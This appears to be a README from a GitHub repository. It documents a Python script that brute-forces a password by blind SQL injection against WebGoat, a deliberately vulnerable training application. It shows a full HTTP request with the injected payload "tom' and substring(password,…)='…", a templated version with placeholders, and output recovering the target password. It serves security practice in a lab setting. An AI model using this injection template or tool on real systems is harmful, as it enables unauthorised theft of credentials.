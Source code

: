 # SLQIBruteforcing

Script for bruteforcing password with SQL injection

## Using

``./sqliSubstring.py [requestfile]``

### Exmaple

Write your request to target in file. For example ``request.txt``

>PUT /WebGoat/challenge/6 HTTP/1.1
>
>Host: localhost:5000
>
>User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
>
>Accept: */*
>
>Accept-Language: en-US,en;q=0.5
>
>Accept-Encoding: gzip, deflate
>
>Referer: http://localhost:5000/WebGoat/start.mvc
>
>Content-Type: application/x-www-form-urlencoded; charset=UTF-8
>
>X-Requested-With: XMLHttpRequest
>
>Content-Length: 90
>
>DNT: 1
>
>Connection: close
>
>Cookie: JSESSIONID=1947DDDDCE0FF65F8E976CJGDDDDDDDB323A826D545F26222
>
>username_reg=tom' and substring(password,1,1)='a&email_reg=loleclole%40sds&password_reg=pass&confirm_password_reg=pass

Set variables in request file for index and letter with ``§i`` and ``§s``

>username_reg=tom' and substring(password,§i,1)='§s&email_reg=loleclole%40sds&password_reg=pass&confirm_password_reg=pass

Run script

``./sqliSubstring.py request.txt``

### Output

```
Trying to detect correct response length...
Detecting |██████████████████████████████████████████████████| 100.0% Complete
Correct length is 174
Bruteforcing...
Checking index 24
Complete!
Password is: thisisasecretfortomonly
```
